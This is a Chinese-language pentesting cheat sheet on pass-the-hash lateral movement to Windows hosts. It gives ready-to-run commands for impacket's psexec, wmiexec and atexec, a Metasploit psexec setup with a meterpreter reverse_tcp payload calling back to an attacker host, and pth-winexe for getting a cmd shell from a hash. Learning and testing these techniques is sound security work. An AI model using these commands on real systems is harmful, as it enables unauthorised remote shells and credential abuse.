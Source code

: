 - **[impacket](https://github.com/SecureAuthCorp/impacket)**
    ```bash
    git clone https://github.com/CoreSecurity/impacket.git
    cd impacket/
    python setup.py install
    cd impacket/examples
    ```
    - **Psexec.py**

        Psexec.py 允许你在远程 Windows 系统上执行进程，复制文件，并返回处理输出结果。此外，它还允许你直接使用完整的交互式控制台执行远程 shell 命令（不需要安装任何客户端软件）。
        ```
        ./psexec.py test/Administrator:Abcd1234@192.168.1.100
        ```

    - **Wmiexec.py**

        它会生成一个使用 Windows Management Instrumentation 的半交互式 shell，并以管理员身份运行。你不需要在目标服务器
        ```
        ./wmiexec.py test/Administrator:Abcd1234@192.168.1.100
        ```

    - **Atexec.py**

        通过 Task Scheduler 服务在目标系统上执行命令，并返回输出结果。
        ```
        ./atexec.py test/Administrator:Abcd1234@192.168.1.100 whoami
        ```

- **metasploit**

    目标主机的 Vista 之后的机器，所以只能使用 administrator 用户进行攻击。
    ```bash
    use exploit/windows/smb/psexec # 或 use exploit/windows/smb/psexec_psh
    set rhosts [ip]
    set smbuser [user]          # 域中的 PTH 这里不需要写域前缀
    set smbpass [password]      # 例如: 00000000000000000000000000000000:c780c78872a102256e946b3ad238f661

    set payload windows/meterpreter/reverse_tcp
    set lhost [ip]

    # 工具的参数需要填写固定格式 LM hash:NT hash，可以将 LM hash 填 0(LM hash 可以为任意值)，即 00000000000000000000000000000000:NT hash。
    exploit
    ```

- **pth-winexe**

    kali 自带的 PTH 套件每个工具都针对 WIN 下相应的 EXE 文件,如使用 Pth-winexe 可以借助哈希执行程序得到一个 cmdshell:
    ```bash
    export SMBHASH=xxxxxx...:xxxx...
    pth-winexe -U administrator% //target-ip cmd
    # no password 就需要替换成空的 LM hash 加密值: aad3b435b51404eeaad3b435b51404ee
    ```
